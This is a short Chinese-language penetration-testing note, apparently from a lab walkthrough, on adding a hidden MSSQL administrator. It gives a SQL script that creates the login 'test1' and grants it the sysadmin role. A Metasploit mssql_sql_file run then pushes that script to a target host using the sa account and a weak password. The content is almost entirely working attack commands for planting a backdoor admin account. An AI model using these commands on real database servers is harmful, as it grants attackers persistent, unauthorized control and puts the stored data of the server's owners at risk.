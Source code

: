 ![image.png](assets/1706232584-d4e01968a9fbff209527d645a4233961.png)

### 添加 mssql 用户

创建 user.sql 文件，记住把密码设置复杂一点，否则数据库可能由于密码过于简单而添加失败

```php
CREATE LOGIN test1 WITH PASSWORD = 'admin@123';
EXEC master..sp_addsrvrolemember @loginame = N'test1', @rolename = N'sysadmin'; //设置为管理员用户
```

```php
use auxiliary/admin/mssql/mssql_sql_file
set rhosts 192.168.3.130
set username sa
set password admin
set sql_file user.sql
exploit
```

![image.png](assets/1706232584-e128277956e220cb2337f052c78b746b.png)  